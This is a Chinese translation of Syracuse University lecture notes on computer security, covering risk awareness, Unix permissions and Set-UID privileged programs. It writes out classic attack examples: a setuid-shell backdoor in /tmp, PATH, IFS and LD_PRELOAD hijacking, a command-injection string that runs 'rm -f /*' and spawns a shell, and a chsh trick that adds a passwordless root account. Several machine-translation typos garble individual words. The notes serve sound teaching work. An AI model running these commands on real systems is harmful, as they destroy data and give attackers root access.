






# 雪城大学计算机与网络安全讲义（CIS643&644）

原书：

+   [CIS/CSE 643: Computer Security](http://www.cis.syr.edu/~wedu/Teaching/CompSec/lecturenotes.html)
+   [CIS/CSE 644: Internet Security](http://www.cis.syr.edu/~wedu/Teaching/InternetSecurity/lecturenotes.html)

译者：[飞龙](https://github.com/wizardforcel)

+ [在线阅读](https://www.gitbook.com/book/wizardforcel/syracuse-sec-lecture-notes/details)
+ [PDF格式](https://www.gitbook.com/download/pdf/book/wizardforcel/syracuse-sec-lecture-notes)
+ [EPUB格式](https://www.gitbook.com/download/epub/book/wizardforcel/syracuse-sec-lecture-notes)
+ [MOBI格式](https://www.gitbook.com/download/mobi/book/wizardforcel/syracuse-sec-lecture-notes)

### 更新历史

+   v0.1：2017.4.22
    +   完成引言和软件安全部分

### 赞助我


### 协议

[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)


## 一、引言

### 1.1 概览

优秀的安全专业人员拥有两个重要的技能：（1）安全的感知，以及（2）安全原则的知识。我希望完成这门课的学生可以拥有二者。拥有不意味着“知道”；它意味着能够应用这些技能。

### 1.2 风险和威胁

+   使用计算机系统时的风险：

    +   你正在公共图书馆中写你的大作业，并且远程登录到了你学院的 UNIX 服务器。你需要离开一分钟，并且有点懒，决定不锁上你笔记本的屏幕。如果恶意人员利用这个机会，最严重的后果是什么？恶意人员需要多少时间来造成最严重的后果？
    
    +   你来到公共图书馆，打算使用这里的电脑来远程登录到你学院的计算机，或者访问网上银行；你面临什么风险？
    
    +   你来到了一个不错的小区中的 ATM 机前来取款（即没有抢劫），你的风险是什么？
    
+   配置计算机系统时的风险：

    +   你打算在家里访问你公司的电脑，所以你配置了公司的电脑，以便可以访问它的远程桌面，风险是什么？
    
    +   你在你的屋子里安装了一个无线接入点，来搭建无线网络，风险是什么？
    
    +   你是系统管理员，将多个程序变为特权程序，所以你就不会被一些任务困扰（用户可以使用这些特权程序来完成这些任务），风险是什么？
    
+   开发计算机系统时的风险：

    +   你的程序有一些缓冲区溢出问题，但是你迫于压力要及时发布软件产品，并决定在这个发行版中不修复这些漏洞，风险是什么？
    
    +   你的公司刚刚赢得了政府的电子投票系统的投标。你的系统可能面临的风险是什么？
    
    +   你正在为一家商店开发在线商城的 Web 页面，你面临的风险的施恩么？
    
+   安全的感知：看到和预测风险的能力。如果你不能系统的枚举上述例子中的风险，你就没有良好的安全感知。我希望在这门课之后，你可以获取良好的风险感知，并且能够在你使用、安装或开发计算机系统时评估你的风险。

+   上一节课中学到的东西：这门课的学生之前没有足够重视培养安全意识。每个学期的大作业，我看到学生们（不是一小部分，而是大部分）演示它们系统的杰出功能，但是没有展示安全感知。它们将很多时间花在为它们的系统实现实用的功能上，但是没有花费任何时间来思考这些功能的安全后果（例如，我们是否应该访问控制，来防止功能被恶意用户滥用，来获取额外权限？）

### 1.3 应对策略

+   方法：有三个预防措施：

    1.  预防：这门课的核心

        +   预防：使其不可能
        +   阻止：使其更困难
        +   转移“使其它目标更加有吸引力
        
    2.  检测
    
        +   监控
        +   入侵检测
        
    3.  恢复
    
        +   恢复数据
        +   识别损失
        +   寻找犯人：取证
        
+   预防的工作方式

    +   策略（IST 课程）
    +   密码学
        +   密码学不仅仅是加密，它用于完成很多安全相关的目标，例如数字货币，时间戳，安全的分布式计算，电子投票，电子投标，等等。
        +   我们在这门课中只会涉及基本的密码学。
    +   控制（这门课的核心组件）
        +   示例：确保只有在安全区域内的人才能读取文件。
        +   硬件控制
        +   软件控制

+   预防如何失效

    +   漏洞
    +   恶意程序：病毒、后门，等等。
    +   控制的不当使用
    +   用户的错误
    
+   如何进行正确的预防？

    +   安全工程原则
    +   风险感知
    +   安全编程
    
### 1.4 计算机安全的意义

当我们讨论“计算机安全”，我们的意思是，我们强调任何计算机相关系统的三个重要的层面：

+   保密性（C）
+   完整性（I）
+   可靠性（A）

这三个词（CIA）的含义十分广泛。对于不同的应用，CIA 的解释也不同。

+   保密性：访问（读取、查看、打印、了解，以及其他）
    +   内容：加密（密码学）
    +   数据存放：隐写术。例如，股票投资、犯人、间谍、水印
    +   资源隐藏：操作系统信息和配置
    +   指纹识别
    +   身份（匿名）
+   完整性：修改（包含编写、修改、状态修改、删除和创建）
    +   数据完整性
    +   程序完整性
    +   系统完整性
    +   身份完整性（不可复制）
    +   来源（位置）完整性（例如网络回溯）
+   可靠性
    +   拒绝服务（DoS）
+   示例：它们属于什么分类？
    +   TCP SYN 泛洪
    +   嗅探
    +   身份伪造
    +   ATM 机欺骗
    +   在纯文本文件中保存密码

## 二、Unix 安全概览

### 1 用户和用户组

+   用户
    +   `root`：超极用户（UID = 0）
    +   `daemon`：处理网络。
    +   `nobody`：不拥有文件，用作非特权操作的默认用户。
        +   Web 浏览器可在这个模式下工作。
    +   用户需要使用密码登录。加密的密码储存在`/etc/shadow`。
    +   用户信息储存在`/etc/passwd`，之前（不再）用于储存密码的地方。下面是这个文件的一个条目的示例：
    
        ```
        john:x:30000:40000:John Doe:/home/john:/usr/local/bin/tcsh
        ```
    
+   用户组
    +   有时候，如果我们把权限授予一组用户，会更加方便，例如，我们打算基于用户组来授予权限。
    +   用户拥有基本组（在`/etc/passwd`中列出），并且它和用户创建的文件相关。
    +   任何用户都可以是多个组的成员。
    +   组信息储存在`/etc/group`中。
    
        ```
        %  groups uid (display the groups that uid belongs to)
        ```
    
    +   对于使用 NIS（网络信息服务，最开始叫做黄页（YP））的系统，我们可以使用命令`ypcat`来获取组信息：
    
        ```
        % ypcat group (can display all the groups and their members)
        ```

### 2 文件权限

+   文件权限
    +   Unix 中权限位的含义
        +   所有者（u）、用户组（g）和其它（o）
        +   可读（r）、可写（w）、可执行（x）
        +   示例：`-rwxrwxrwx`（777）
+   目录上的权限
    +   r：可以列出目录
    +   w：可以在目录中创建或删除文件或目录
    +   x：可以进入目录
+   修改权限：`chmod`
+   完全访问控制列表：`getfacl`和`setfacl`。
+   默认文件权限
    +   授予新创建的文件的默认文件权限是什么？
    +   默认权限储存在`umask`环境变量中
    +   `umask`：你不想要的权限
    +   一些系统中的默认值：022
        +   它会将新文件的权限设为`rw-r--r--`.
    +   最安全的值：077
        +   将新文件的权限设为`rw-------`。
    +   通过执行这个命令检查你自己的设置：
    
        ```
        % umask
        ```
    
    +   修改`umask`值。你可以执行下列命令，或者将其放入你的`.profile`文件中。
    
        ```
        % umask 077
        ```

### 3 安全相关的命令

+   切换用户
    +   将你的用户 ID 切换为`xyz`，`su`意思是“替代用户”。
    
        ```
        % /bin/su xyz
        ```
    
    +   切换为`root`。这是获得超级用户访问权的常见方式。一旦你进入了超级用户账户，提示符就会变成静好（`#`）。
    
        ```
        % /bin/su -
        ```
    
    +   使用超级用户权限来执行命令。有时，我们只想要使用超级用户权限执行命令。我们不执行`su`来切换`root`，而是执行命令，我们可以使用`sudo`命令。
    
        ```
        (view the shadow file as a superuser) 
        % sudo more /etc/shadow
        ```
    
    +   为了能够只用`sudo`作为超级用户执行命令，（root）需要向用户授予权限。这通过`/etc/sudoers`文件完成。
+   变更文件所有者
    +   `chown`命令
    
        ```
        % chown wedu file
        ```
    
    +   Q：我能允许用户将文件所有者变更为另一个用户吗？
        +   不能，实际上，只有`root`才可以使用`chown`，为什么呢？
        +   我们会在学习`Set-UID`之后了解原因。
+   变更文件组
    +   `chgrp`命令
    
        ```
        % chgrp seed /home/seed/785
        ```
    
    +   Q：我可以允许用户将文件组变更为另一个组吗？
        +   可以/不行。如果你想要变更为组`xyz`，你必须是`xyz`组的成员。
        +   原因类似于`chown`命令，（`Set-GID`）。
+   杂项
    
    ```
    % whoami (to print out your current user name) 
    % /usr/bin/id (display both uid and gid) 
    % man chmod (find the manual for the chmod command)
    ```

## 三、Set-UID 特权程序

这个讲义的主要目标就是来讨论特权程序，为什么需要他们，他们如何工作，以及它们有什么安全问题。特权程序是可以给予用户额外权限的程序，这些权限超出了用户已有的权限。例如，Web 服务器是特权程序，因为他允许远程用户访问服务端的资源；Set-UID 程序也是个特权程序，因为他允许用户在程序执行期间获得 ROOT 权限。

这篇讲义中，我们会专注于 Set-UID 的机制，并且在我们的案例学习中使用它。但是，我们在这里讨论的许多安全原则也可以用在其他特权程序上。

### 1 Set-UID 机制如何工作

+   动机
    +   你想让其他人能够搜索文件中的一些单词，但是不想让他们能够读取文件。如何实现它呢？
    +   用户的密码储存在`/etc/shadow`中，普通用户不可读写。但是，`passwd`程序允许用户修改它们自己的密码。也就是，当用户执行`passwd`，它们可以突然修改`/etc/shadow`，并且用户只能修改`/etc/shadow`中的一项，但不是其他人的条目。如何实现？
+   Set-UID 程序
    +   有效 UID 和真实 UID 的概念
    +   对于非 Set-UID 程序，二者相同
    +   对于 Set-UID 程序，前者是程序所有者的 UID，后者是程序用户的 UID。
+   有效 UID 和真实 UID
    +   登录时期，真实 UID 和有效 UID，以及登录过程保存的 UID 都设为负责进程创建的用户的登录 UID。对于真实、有效和保存的组 ID 也一样。它们设为负责进程创建的用户的组 ID。
    +   当进程调用`exec`系列函数之一，来执行文件（程序）时，进程相关的用户和组标识符会发生改变。如果执行的文件是个 Set-UID 文件，进程的有效和保存的 UID 会设为所执行文件的所有者。如果所执行文件是个 Set-GID 文件，有效 UID、保存的 UID 以及有效 GID、保存的 GID 不会改变。
    +   访问控制基于有效 UID 和 GID。
+   为什么`passwd`、`chsh`和`su`程序需要为 Set-UID 程序？
+   Windows NT/2000 中有没有 Set-UID 程序？如果没有，相同问题在 Windows 中如何解决？
    +   Windows 没有 Set-UID 这个概念。不同的机制用于实现权限功能。开发者会将特权程序编写为服务，用户使用本地过程调用将命令行参数发给服务。
    +   服务可以自动或手动启动。
    +   每个服务都有安全描述符，制定了哪个用户允许启动、停止和配置该服务。
    +   服务通常在本地系统账户下运行。
+   如何打开 Set-UID 位：

    ```
    % chmod 4755 file ---> -rwsr-xr-x 
    ```
    
+   Set-UID 在 Minix 中如何实现？

    ```
    /* This is the per-process information */ 
    EXTERN struct fproc {
        uid_t fp_realuid; /* real user id */ 
        uid_t fp_effuid; /* effective user id */ 
        gid_t fp_realgid; /* real group id */ 
        gid_t fp_effgid; /* effective group id */ 
        ...
    }
    ```

+   Set-UID 机制的恶意使用：
    +   攻击者可以使用你的账户十秒。它能够植入后门，以便之后再回到你的账户吗？
    
        ```
        % cp /bin/sh /tmp 
        % chmod 4777 /tmp/sh
        ```
        
        由此，攻击者创建了 Set-UID Shell 程序，你是这个程序的所有者。因此，当攻击者之后再运行 Shell 时，它使用你的权限运行。
+   问题：
    +   普通用户是否可以调试 Set-Root-UID 程序？
    +   普通用户是否可以使用`chown`来将文件所有者修改为任何用户？
    
### 2 Set-UID 程序的漏洞

#### 2.1 隐藏的输入：环境变量

特权程序必须对所有输入进行安全检查。输入检查实际上是访问控制的一部分，特权程序必须这么做，来确保程序的安全。很多安全问题都是输入检查的错误造成的。

如果输入在程序中显式存在，程序员可能记得执行输入检查；如果输入隐式存在，输入检查可能会忘记，因为程序员可能不知道这个输入的存在。环境变量就是这类输入。

每个 Unix 进程都在特定环境下运行。环境由环境变量表组成，每个变量都有赋值。一些程序内部使用这些环境变量，Shell 程序就是这些程序的例子。换句话说，一些环境变量的值可以 Shell 程序的行为。

由于环境变量由用户控制，如果程序依赖这些变量，用户可以间接影响这类程序的行为，通过修改一些环境变量的值。因此，理解特权程序是否依赖任何环境变量的值就十分重要。一种程序可能被环境变量影响的方式，就是在程序中显式使用环境变量的值。在 C 语言中，程序可以使用`getenv`来访问环境变量的值。但是，也有许多例子，程序隐式使用环境变量。这就是我们在许多 Set-UID 程序中看到的漏洞。我们会在这一节中展示几个例子。

+   `PATH`环境变量
    +   在 Shell 中执行命令式，Shell 会使用`PATH`环境变量搜索所有命令，它包含一个目录列表。Shell 程序通过目录列表（和他们在`PATH`环境变量的相同顺序）来搜索。第一个匹配命令名称的程序会被执行。
    +   下面会发生什么？要注意`system (const char *cmd)`库函数首先调用`/bin/sh`程序，之后让 Shell 程序执行`cmd`。
    
        ```
        system ("mail");
        ```
    
+   攻击者可以将`PATH`修改成这个，并使当前目录下的`mail`被执行。

    ```
    PATH=".:$PATH"; export PATH
    ```
    
    拿超人来比喻的话，如果超人的指令是“左转”（坏人在左边而好人在右边，你可以假设他要攻击坏人）。如果攻击者准确知道左转指令什么时候以及在哪里执行，他就可以做出与上面类似的攻击。因为“左边”是个相对的方向，并不是绝对方向。如果攻击者事先在你想要左转的地方，放置一个旋转设备，并将你旋转 180 度，只要你踏上了它，“左转”就变成了转到好人那里。如果你遵循了指令，你最后就会攻击好人。
+   `IFS`环境变量
    +   `IFS`变量决定了哪些字符被解释为空白字符。它代表了内部字段分隔符。假设我们设置它来包含斜杠字符：
    
        ```
        IFS="/ \t\n"; export IFS 
        PATH=".:$PATH"; export PATH
        ```

    +   现在从 Bourne Shell 中调用任何使用绝对`PATH`的程序（李儒`system`）。它现在解释为下面的东西，它会在当前用户目录下，尝试执行命令行调用`bin`：
    
        ```
        system("/bin/mail root"); ---> system(" bin mail root");
        ```
    
    +   IFS 的 bug 现在已经在 Shell 中禁止了；所引用的新的 Shell 进程不会继承 IFS 变量。
    
    +   假设在超人的故事中。超人知道使用“左转”指令的风险，所以它将其改为“转到北边”，它现在是个绝对方向。这仍然存在漏洞，因为“北”由磁场决定，不幸的是，磁场可以通过攻击者放置的磁铁来影响。
    
+   ` LD_LIBRARY_PATH`环境变量
    +   Linux 中，除非编译时期通过`-static`显式指定，所有 Linux 程序需要在运行时期链接到动态链接库。动态链接器或加载器`ld.so/ld-linux.so`加载程序所需的共享库，准备要运行的程序，之后运行它。你可以使用下面的命令来观察程序需要什么共享库。
    
        ```
        % ldd /bin/ls
        ```
    +   ` LD_LIBRARY_PATH`是一个环境变量，被动态链接器或加载器（`ld.so/ld-linux.so`）使用。它含有一个目录列表，让链接器或者加载器在搜索共享库时寻找。可以列出多个目录，以冒号（`:`）分隔。对于任何可执行文件，这个列表放在现存的编译器加载路径，以及任何系统默认加载路径的前面。
    +   基本上每个 Unix 程序都依赖于`libc.so`，并且每个 Windows 程序都一拉李雨 DLL。如果这些苦可以替换为恶意的副本，恶意代码就可以在共享库函数被调用时执行。
    +   由于` LD_LIBRARY_PATH`可以由用户充值，攻击者可以修改这个变量，并强制库加载器在攻击者的目录中搜索库，从而加载攻击者的恶意库。
    
        ```
        % setenv LD_LIBRARY_PATH .:$LD_LIBRARY_PATH
        ```
    
    +   为了使 Set-UID 程序更加安全，不受`LD_LIBRARY_PATH`环境变量的影响，运行时的链接器或加载器（`ld.so`）会忽略环境变量，如果程序是个 Set-UID 程序。
    +   防护应用也可以静态链接到可信库来避免这个问题。
    +   在 Windows 主机上，通常在加载 DLL 的时候，在搜索系统目录之前，会搜索当前目录中的 DLL。如果你点击 Word 文档来启动 Office，会在包含该文档的目录下搜索 DLL。
+   ` LD PRELOAD `环境变量
    +   许多 Unix 系统允许你“预加载”共享库，通过设置环境变量`LD PRELOAD`。这些用户指定的库会在所有其它库之前加载。这可以用于选择性重载其他库中的函数。例如，如果你已经构建了一个库，你可以使用下列命令预加载它：
    
        ```
        % export LD_PRELOAD=./libmylib.so.1.0.1
        ```
        
        如果`libmylib.so.1.0.1 `包含函数`sleep`，它是个标准的`libc`函数，当程序执行并调用`sleep`时，`libmylib.so.1.0.1`中的函数会被调用。
+   这里是一个程序，重载了`libc`中的`sleep`：

    ```
    #include <stdio.h> 
    void sleep (int s) { 
        printf("I am not sleeping!\n"); 
    }
    ```
    
    我们可以使用下列命令编译程序（假设上面的程序名为`name.c`）：
    
    ```
    % gcc -fPIC -g -c a.c 
    % gcc -shared -o libmylib.so.1.0.1 a.o -lc
    ```
    
    现在，我们运行下列程序：
    
    ```
    int main() { 
        sleep(1); 
        return 0; 
    }
    ```
    
    如果环境变量`LD PRELOAD `设为`libmylib.so.1.0.1`，标准`libc`中的`sleep`没有使用，反之我们共享库中的`sleep`函数会调用，并且打印`"I am not sleeping!"`。
+   为了确保 Set-UID 程序安全，不受`LD PRELOAD`环境变量的控制，运行时链接器或加载器（`ld.so`）会忽略这个环境变量，如果程序是 Set-Root-UID 程序，除非真实 UID 也为 0。

#### 2.2 调用其它程序

当特权程序调用其它程序时，必须注意是否调用了非预期的程序。我们知道，环境变量是个我们需要注意的地方，也有一些我们需要注意的其它地方。

+   如果 Set-UID 程序执行下面的事情，会发生什么？

    ```
    // The contents of User_Input are provided by users. 
    sprintf(command, "/bin/mail %s", User_Input); 
    system(command);
    ```
    
+   `User_Input`可能包含 Shell 的特殊字符（例如`| & < >`）。要记住，`system`调用实际上先调用 Shell，之后让 Shell 程序执行`/bin/mail`。如果我们不注意，攻击者就可以执行其它程序，通过让`User_Input`是下面的字符串：

    ```
    xyz@example.com ; rm -f /* ; /bin/sh
    ```

#### 2.3 其它知名的漏洞模式

除了上面的输入校验漏洞，也有一些其他的知名漏洞模式。我们会在单独的章节中讨论它们。这里是这些模式的总结：

+   缓冲区溢出
+   竞态条件
+   格式化字符串

#### 2.4 杂项漏洞

有许多其他漏洞，并不易于归纳进上面讨论的任何分类。一些可能被归纳为更广泛的“呼入椒盐漏洞”，但是由于他们的独特特性，我们在这里单独讨论它们。我们不能枚举所有漏洞。我们只能给出一些示例，来展示程序员在程序逻辑中的不同错误，并且展示这些错误如何变为漏洞。

+   `lpr`漏洞：它在`/tmp`目录下生成临时文件。文件名称应该是随机的，但是，由于伪随机数生成的错误，文件名称每一千次就会发生重复。这个程序是 Set-UID 程序。将可预测的文件名称链接到`/etc/passord`会导致`lpr`覆盖`/etc/passord`。
+   `chsh`漏洞：`chsh`让用户输入 Shell 程序的名称s，并在`/etc/passwd`中保存输入。`chsh`并不会做清晰的检查。程序假设用户的输入只有一行，不幸的是，这个假设可以为假：用户可以键入联行输入，其中第二行是类似`xyz::0:0::`的东西美丽如，用户可以插入一个新的超级用户账户（UID：0），不带密码。
+   `sendmail`漏洞
    +   `sendmail`：（1）入境的邮件会添加在`/var/mail/wedu`。（2）如果`/var/mail/wedu`的所有者不是 Wedu，`sendmail`会使用`chown`将所有者修改为 Wedu。
    +   你能利用它来读取 Wedu 的邮件吗？
    +   你能利用它来给 Wedu 造成更大的损失吗？

### 3 提升 Set-UID 程序的安全性

+   `exec`函数
    +   `exec`函数系列通过将当前进程映像包装为新的，来运行紫禁城。有许多`exec`函数的版本，工作方式不同。它们可以归类为：
        +   使用/不适用 Shell 来启动新程序。
        +   通过 Shell 处理命令行参数（Shell 可以引入比我们预期的更多功能。要注意 Shell 是个强大程序）。
    +   启动子进程涉及到依赖问题以及属性继承，我们之前看到它可能存在问题。函数`execlp`和`execvp`使用 Shell 来启动程序。它们使程序的执行依赖于当前用户安装的 Shell。例如，依赖于`PATH`和其它环境变量的值。函数`execv`跟家安全，因为它不向代码引入任何这种依赖。
    +   `system`（CMD）调用向 Shell 传递字符串来执行子进程（即作为单独派生的进程）。它是个用于执行 EXEC 函数的方便的前端。
    +   `popen`的标准实现也与之相似。这个函数打开到新锦成管道，以便执行命令，并读取任何输出作为文件流。这个函数也启动 Shell 来解释命令字符串。
+   如何安全地调用程序？
    +   避免任何 Shell 的调用。不使用`system`，而是`execve`：`execve`不调用 Shell，`system`调用。
    +   避免`execlp (file, ...)`和`execvp(file,...)`，它们的语义类似于 Shell。它们使用文件内存作为 Shell 的标准输入，如果文件不是有效的可执行目标文件。
    +   小心可能使用 Shell 实现的函数。
        +   Perl 的`open`函数可以执行命令，通常通过 Shell 来这么做。
+   提升`system`的安全性
    +   要记住`system`首先调用`/bin/sh`。在 Ubuntu 中，它使用参数`sh, -c`和用户提供的字符串来调用`execv /bin/sh`。
    +   在一些 Ubuntu 的早起版本中（例如 9.11），`/bin/sh`（实际上是 Bash）忽略 Set-UID 位选项。因此，在 Set-UID 中调用`system`（CMD）时，CMD 不会使用 Root 权限执行，除非 CMD 本身也是个 Set-UID 程序。下面 代码在 Bash 中丢弃了 Set-UID 位。
    
        ```
        if (running_setuid && privileged_mode == 0) 
            disable_priv_mode ();

        ... 
        void disable_priv_mode () { 
            setuid (current_user.uid);
            setgid (current_user.gid); 
            current_user.euid = current_user.uid; 
            current_user.egid = current_user.gid;
        }
        ```
    
    +   但是，上面的保护看似破坏了一些需要使用`system`的 Set-UID 程序。因此，从某个版本起，由于添加了其它条件（对于 11.04 和 12.04），保护被移除了。
    
        ```
        if (running_setuid && privileged_mode == 0 && act_like_sh ==0) 
            disable_priv_mode ();
        ```
        
        如果 Bash 通过`/bin/sh`符号链接调用，`act_like_sh`设为 1，因此权限没有禁用。但是，如果你直接将 Bash 变成 Set-UID 程序并尝试运行，保护仍然会有效，并且权限会丢弃。

### 4 最小权限原则

> 最小权限原则（最早由 Saltzer 和 Schroeder 提出）：

> 每个程序和系统用户都应该具有完成任务所必需的最小权限集合。

> 限制代码运行所需的安全权限，有一个非常重要的原因，就是降低你的代码在被恶意用户利用时，造成的损失。如果你的代码仅仅使用最小权限来执行，恶意用户就难以使用它造成损失。如果你需要用户使用管理员权限来执行代码，任何代码中的安全缺陷，都会通过利用该缺陷的恶意用户，潜在造成更大的损失。

编写特权程序时的问题：

+   程序需要该权限吗？
    +   如果程序不需要任何特殊权限来运行，它不应该是个特权程序。
+   程序需要所有权限吗？
    +   我们只给予程序完成任务所需的最小权限集合。
    +   许多操作系统不向我们提供多种选择；我们可以选择包含所有 Root 权限的集合，或者不包含任何权限的集合。多数 Unix 系统就是这样，你要么是 Root 要么不是，没有中间值。
    +   多数现代 Unix 系统（和 Windows）引入了更多选择。这些系统将 Root 权限划分为多种字权限。使用这种自粒度，我们就可以更好应用最小权限原则。
+   程序现在需要权限吗？
    +   程序通常偶尔不需要特定权限，它们在这个时候就变得不必要了。我们应该暂时禁用它们来满足最小权限原则。这么做的好处就是，放置程序犯下意外的错误，使之不能对需要禁用权限的事情造成损失。下面的图像展示了这个要点。
    +   稍后，禁用的权限可能就必要了，我们之后可以开启它。
    +   要记住，开启或禁用权限可以在特定场景下降低损失，当攻击者不能像漏洞程序注入代码的时候。如果攻击者可以向漏洞程序注入代码，注入的代码自己就能够开启权限。
+   程序在未来需要权限吗？
    +   如果权限不再需要了，它就是不必要的，应该永久溢出，所以最小权限集合应基于未来的需求来调整。

Unix 为我们提供了什么机制，来实现最小权限原则？

+   实用的系统调用：`setuid()`，`seteuid()`，`setgid()`，和`setegid()`。
+   `seteuid(uid)`：它为调用进程设置有效 UID。
    +   如果调用进程的有效 UID 是超级用户，`uid`参数可以是任何东西。这通常由超级用户用来暂时让渡/获取权限。但是，进程的超级用户权限并没有丢失，进程可以拿回来。
    +   如果调用进程的有效 UID 不是超级用户，UID 参数只能是有效 UID，真实 UID，以及保存的 UID。这通常由特权程序使用来恢复他的权限（原始的特权有效 UID 保存在保存的 UID 中）。
+   `setuid(uid)`：它设置了当前进程的有效 UID。如果调用者的有效 UID 是 Root，也会设置真实和保存的 UID。
    +   如果调用进程的有效 UID 是超级用户，真实、有效和保存的 UID 全部会设为`uid`参数。之后，程序就不能够拿回 Root 权限（假设 UID 不是 Root）。这用于永久让渡高权限的访问权。
    +   想要暂时放弃 Root 权限的 Set-Root-UID 程序，假设身份是非 Root 用户，之后不能使用`setuid`来拿回权限。你可以使用`seteuid`调用来完成它。
